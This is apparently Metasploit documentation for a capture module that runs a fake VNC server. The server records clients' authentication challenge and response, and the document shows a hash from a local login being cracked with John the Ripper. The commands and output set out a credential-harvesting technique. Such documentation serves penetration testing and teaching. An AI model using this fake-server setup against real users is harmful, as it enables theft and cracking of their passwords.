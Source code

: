 This module creates a mock VNC server which accepts credentials.  Upon receiving a login attempt, an `Authentication failure` error is thrown.

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/server/capture/vnc```
  3. Do: ```run```

## Options

### CHALLENGE

  The 16 byte challenge used in the authentication.  Default is `00112233445566778899aabbccddeeff`.

### JOHNPWFILE

  Write a file containing a John the Ripper format for cracking the credentials.  Default is ``.

### SSL

  Boolean if SSL should be used.  Default is `False`.

### SSLCert

  File path to a combined Private Key and Certificate file.  If not provided, a certificate will be automatically
  generated.  Default is ``.

## Scenarios

### VNC with vncviewer and JTR Cracking

Server, Client:

```
msf > use auxiliary/server/capture/vnc 
msf auxiliary(server/capture/vnc) > use auxiliary/server/capture/vnc 
msf auxiliary(server/capture/vnc) > set johnpwfile /tmp/john
johnpwfile => /tmp/john
msf auxiliary(server/capture/vnc) > run
[*] Auxiliary module running as background job 0.
msf auxiliary(server/capture/vnc) > 
[*] Started service listener on 0.0.0.0:5900 
[*] Server started.

msf auxiliary(server/capture/vnc) > vncviewer 127.0.0.1
[*] exec: vncviewer 127.0.0.1

Connected to RFB server, using protocol version 3.7
Performing standard VNC authentication
Password: 
Authentication failure

[+] 127.0.0.1:40240 - Challenge: 00112233445566778899aabbccddeeff; Response: b7b9c87777661a7a2299733209bfdfce
```

John the Ripper (JTR) Cracker:

```
msf auxiliary(server/capture/vnc) > john /tmp/john_vnc
[*] exec: john /tmp/john_vnc

Using default input encoding: UTF-8
Loaded 1 password hash (VNC [DES 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (?)
1g 0:00:00:00 DONE 2/3 (2018-11-11 20:38) 25.00g/s 75.00p/s 75.00c/s 75.00C/s password
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
